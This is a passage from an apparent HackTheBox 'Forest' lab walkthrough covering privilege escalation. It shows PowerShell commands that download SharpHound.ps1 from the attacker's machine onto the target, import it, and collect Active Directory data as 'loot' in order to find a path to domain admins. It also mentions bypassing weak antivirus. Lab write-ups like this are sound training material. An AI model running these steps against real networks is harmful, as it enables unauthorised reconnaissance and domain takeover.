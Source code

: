 <p align="center">
  <img src="/images/walkthroughs/hackthebox/forest/2_0_user.png" width="70%"/>
</p>


## Privesc

I used remote bloodhound but did not showed me any valuable privesc path so I loaded SharpHound.ps1 in the machine. One of the main difference between these two methods is that the python script executed from a non-joined machine won't show the session information while SharpHound will. This is valuable information is no EDR is in place (or a weak AV that we can bypass). Let's load the script and retrieve the loot:


```bash
# Get the script in the box
Invoke-WebRequest -Uri "http://10.10.14.2:5454/SharpHound.ps1" -outfile SharpHound.ps1

# Import Sharphound
Import-Module ./SharpHound.ps1

# Run sharphound as current user
Invoke-Bloodhound -CollectionMethod All -Domain htb.local -ZipFileName loot.zip
```

Checking bloodhound, we set _svc-alfresco_ as owned, then "Show shortest path to domain admins" 

<p align="center">